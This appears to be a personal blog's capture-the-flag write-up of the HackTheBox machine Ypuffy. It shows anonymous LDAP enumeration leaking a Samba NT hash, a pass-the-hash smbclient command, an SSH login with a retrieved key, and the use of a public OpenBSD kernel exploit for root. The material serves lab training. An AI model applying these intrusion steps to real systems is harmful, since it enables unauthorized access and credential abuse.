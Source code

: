 ```yaml
---
categories:
- CTF
layout: post
media_subpath: /assets/posts/2019-02-08-ypuffy-hackthebox
tags:
- hackthebox
- kernel exploit
- ldap
- openbsd
title: Ypuffy @ HackTheBox
---
```


Ypuffy is a rather unique machine on [hackthebox.eu](https://www.hackthebox.eu) because it features OpenBSD as operating system. In my version of getting root it didn’t matter too much unfortunately because a public kernel exploit gave root quite easily. Ypuffy features ldap and smb enumeration and then application of public exploit for OpenBSD.

## User Flag

Scanning the box shows that port 389 is open and that one can potentially retrieve information without the need of credentials.

```
...
389/tcp open  ldap        (Anonymous bind OK)
445/tcp open  netbios-ssn Samba smbd 4.7.6 (workgroup: YPUFFY)
...
```

Using nmaps ldap-search some interesting information can be revealed:

```
...
|     dn: uid=alice1978,ou=passwd,dc=hackthebox,dc=htb
|         uid: alice1978
|         cn: Alice
|         objectClass: account
|         objectClass: posixAccount
|         objectClass: top
|         objectClass: sambaSamAccount
|         userPassword: {BSDAUTH}alice1978
|         uidNumber: 5000
|         gidNumber: 5000
|         gecos: Alice
|         homeDirectory: /home/alice1978
|         loginShell: /bin/ksh
|         sambaSID: S-1-5-21-3933741069-3307154301-3557023464-1001
|         displayName: Alice
|         sambaAcctFlags: [U          ]
|         sambaPasswordHistory: 
|         sambaNTPassword: 0B186E661BBDBDCF6047784DE8B9FD8B
|         sambaPwdLastSet: 1532916644
...
```

The credentials can be used to connect via smb:

```
python2 /usr/bin/smbclient.py YPUFFY/alice1978@10.10.10.107 -hashes 00000000000000000000000000000000:0B186E661BBDBDCF6047784DE8B9FD8B
```

Issuing `shares` it can be seen that a share named  
"alice" exist. With `use alice` it can be selected, a private key named "my\_private\_key.ppk" retrieved and the key been used to ssh into the box as "alice1987" to grab the userflag:

```
ssh alice1978@10.10.10.107 -i alice.priv
```

## Root Flag

Turns out the box uses Openbsd – looking for fitting kernel exploits, [raptor\_xorgasm](https://github.com/0xdea/exploits/blob/master/openbsd/raptor_xorgasm) can be found. After compiling and executing the exploit we become root and can read flag.
